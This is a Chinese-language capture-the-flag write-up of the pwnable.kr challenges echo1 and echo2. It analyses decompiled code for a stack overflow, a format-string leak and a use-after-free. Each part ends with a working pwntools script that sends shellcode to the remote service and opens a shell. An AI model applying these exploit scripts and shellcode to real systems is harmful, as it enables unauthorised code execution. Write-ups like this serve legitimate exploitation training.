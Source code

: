 # pwnable.kr  echo1&2

### 0x1 echo1

#### 1x1 分析

看一下安全性：

```shell
[*] './echo1/echo1'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x400000)
    RWX:      Has RWX segments
```

什么都没有开。

`main()`:

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  unsigned int *v3; // rsi
  _QWORD *ptr_stack; // rax
  unsigned int choice; // [rsp+Ch] [rbp-24h]
  __int64 v7; // [rsp+10h] [rbp-20h]
  __int64 v8; // [rsp+18h] [rbp-18h]
  __int64 v9; // [rsp+20h] [rbp-10h]

  setvbuf(stdout, 0LL, 2, 0LL);
  setvbuf(stdin, 0LL, 1, 0LL);
  ptr = malloc(0x28uLL);
  *((_QWORD *)ptr + 3) = hello;
  *((_QWORD *)ptr + 4) = byebye;
  printf("hey, what's your name? : ", 0LL);
  v3 = (unsigned int *)&v7;
  __isoc99_scanf("%24s", &v7);
  ptr_stack = ptr;
  *(_QWORD *)ptr = v7;
  ptr_stack[1] = v8;
  ptr_stack[2] = v9;
  id = v7;
  getchar();
  func[0] = (__int64)echo1;
  qword_602088 = (__int64)echo2;
  qword_602090 = (__int64)echo3;
  choice = 0;
  do
  {
    while ( 1 )
    {
      while ( 1 )
      {
        puts("\n- select echo type -");
        puts("- 1. : BOF echo");
        puts("- 2. : FSB echo");
        puts("- 3. : UAF echo");
        puts("- 4. : exit");
        printf("> ", v3);
        v3 = &choice;
        __isoc99_scanf("%d", &choice);
        getchar();
        if ( choice > 3 )
          break;
        ((void (__fastcall *)(const char *, unsigned int *))func[choice - 1])("%d", &choice);
      }
      if ( choice == 4 )
        break;
      puts("invalid menu");
    }
    cleanup();
    printf("Are you sure you want to exit? (y/n)", &choice);
    choice = getchar();
  }
  while ( choice != 'y' );
  puts("bye");
  return 0;
}
```

在`bss`段有一个`ptr`和一个`id`。`ptr`的前`0x18`的长度我们输入控制，另外`0x10`是两个函数指针:

`hello`和`byebye`。都只是单纯的输出。

```c
__int64 __fastcall hello(__int64 a1)
{
  printf("hello %s\n", a1);
  return 0LL;
}

__int64 __fastcall byebye(__int64 a1)
{
  printf("goodbye %s\n", a1);
  return 0LL;
}
```

然后是是个菜单，调用三个函数`echo1|2|3`。但是这里只有`echo1`有东西。

```c
__int64 echo1()
{
  char s; // [rsp+0h] [rbp-20h]

  (*((void (__fastcall **)(void *))ptr + 3))(ptr);
  get_input(&s, 0x80);                          // overflow
  puts(&s);
  (*((void (__fastcall **)(void *, signed __int64))ptr + 4))(ptr, 0x80LL);
  return 0LL;
}
```

有一个栈溢出。

**思路**：

这里有一个巧妙的办法，先在`id`里也就是`ptr[0]`存入`jmp rsp`，然后`rip`就迁移到栈上了，然后在利用栈溢出写入`shellcode`。执行`shellcode`。

#### 1x2 EXP

```python
#! /usr/bin/python
#-*- coding: utf-8 -*-
from pwn import *

context.terminal = ['tmux', 'splitw', '-h']
context(arch = 'amd64' , os = 'linux', log_level='debug')

# p = process('./echo1')
p = remote('pwnable.kr', 9010)

id_bss = 0x6020A0
shellcode = asm(shellcraft.sh())
p.sendlineafter("hey, what's your name? :", asm('jmp rsp'))
p.sendlineafter('>', '1')
p.sendline('a' * 0x28 + p64(id_bss) + shellcode)
p.interactive()
```

### 0x2 echo2

#### 2x1 分析

看一下安全性：

```shell
[*] './echo2/echo2'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x400000)
    RWX:      Has RWX segments
```

还是什么都没开

这道题大致的逻辑跟上道题一样，但是`echo1|2|3`的内容发生改变。`echo1`没有内容。

```c
__int64 echo2()
{
  char format; // [rsp+0h] [rbp-20h]

  (*((void (__fastcall **)(void *))o + 3))(o);
  get_input(&format, 0x20);
  printf(&format, 0x20LL);                      // FMT
  (*((void (__fastcall **)(void *))o + 4))(o);
  return 0LL;
}
```

有一个格式化字符串漏洞。可以考虑泄漏或者覆盖栈。

```c
__int64 echo3()
{
  char *s; // ST08_8

  (*((void (__fastcall **)(void *))o + 3))(o);
  s = (char *)malloc(0x20uLL);
  get_input(s, 0x20);
  puts(s);
  free(s);
  (*((void (__fastcall **)(void *, signed __int64))o + 4))(o, 0x20LL);
  return 0LL;
}
```

这里我们可以注意到`s`申请的内存实际上和`main`函数申请的内存是一样大的。

可以结合`cleanup`来使用

```c
// o == ptr
void cleanup()
{
  free(o);
}
```

这样我们先`cleanup`然后`echo3`就可以修改堆里的那两个函数指针。

**思路**:

将`shellcode`存在栈里，然后用格式化字符串泄漏栈地址从而的到`shellcode`的地址，然后修改`ptr[4]`为`shellcode`地址拿到`shell`。

**有个知识点需要注意：就是`fgets`只会读取`n - 1`个字节然后填充`0`。**

#### 2x2 EXP

```python
#! /usr/bin/python
#-*- coding: utf-8 -*-
from pwn import *

context.terminal = ['tmux', 'splitw', '-h']
context(arch = 'amd64' , os = 'linux', log_level='debug')

shellcode = "\x31\xf6\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x56"
shellcode += "\x53\x54\x5f\x6a\x3b\x58\x31\xd2\x0f\x05"
# test = 'aaaa'
#p = process('./echo2')
p = remote("pwnable.kr", 9011)
p.sendlineafter("hey, what's your name? : ", shellcode)
# leak stack
p.sendlineafter(">", '2')
p.recvline()
p.sendline("%10$p")
stack = eval(p.recv(14)) - 0x20
print (hex(stack))
# gdb.attach(p, '\n')
# pause()
#UAF get shell
p.sendlineafter(">", '4')
p.sendafter("Are you sure you want to exit? (y/n)", 'n')
p.sendlineafter("> ", '3')
p.recvline()
p.send('a'*0x18 + p64(stack))
p.interactive()
```

